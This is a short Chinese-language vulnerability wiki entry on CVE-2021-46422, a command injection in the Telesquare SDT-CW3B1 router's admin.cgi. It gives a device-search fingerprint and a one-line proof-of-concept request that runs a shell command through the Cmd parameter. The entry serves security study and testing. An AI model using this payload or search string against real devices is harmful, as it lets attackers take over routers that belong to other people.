 # Telesquare SDT-CW3B1 admin.cgi 远程命令执行漏洞 CVE-2021-46422

## 漏洞描述

Telesquare SDT-CW3B1 1.1.0版本中存在命令注入漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>Telesquare SDT-CW3B1 1.1.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="SDT-CS3B1"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1654142395320-945fe781-d087-46d1-a026-e1bb5f440ad5.png)

验证POC

```php
/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id
```

![img](/assets/PeiQi-Wiki/img/1654143109183-7ba34ffa-7bdd-4552-963f-693cfcfb796f.png)